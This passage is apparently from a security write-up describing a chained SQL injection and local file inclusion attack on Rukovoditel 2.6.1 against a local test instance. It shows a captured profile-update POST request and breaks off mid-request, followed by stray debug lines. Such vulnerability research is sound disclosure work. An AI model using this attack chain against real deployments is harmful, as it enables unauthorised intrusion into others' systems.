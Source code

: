 After having explained the two solutions I chose to keep the first one because at least if the SQLi is patched the exploit is still functional.

## Part 2: Local File Inclusion (LFI)

### How?

Now that we've managed to upload a file and find this one on the remote host, we need to find a way to include it in a page.

![alt text](../captures/c10_4.png "Figure 5: User updating his profile")

When a user update his profile and saves the changed parameters, the following POST request is sent.

Update profile request:
```
POST /projects/rukovoditel_2.6.1/index.php?module=users/account&action=update HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------217390065821491289301264851468
Content-Length: 1129
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/rukovoditel_2.6.1/index.php?module=users/account
Cookie: cookie_test=please_accept_for_session; sid=1e58bba933b8f378888b9dc000e0901f; user_skin=red; phpMyAdmin=6d60db4f935f7c881151fa4fc636ae88; pma_lang=en; app_login_redirect_to=module%3Ddashboard%2F
Upgrade-Insecure-Requests: 1

-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="form_session_token"

MexetTEEEJ
-----------------------------217390065821491289301264851468
Content-Disposition: form-data; name="fields[7]"

```

[DEBUG]: Start
[DEBUG]: Start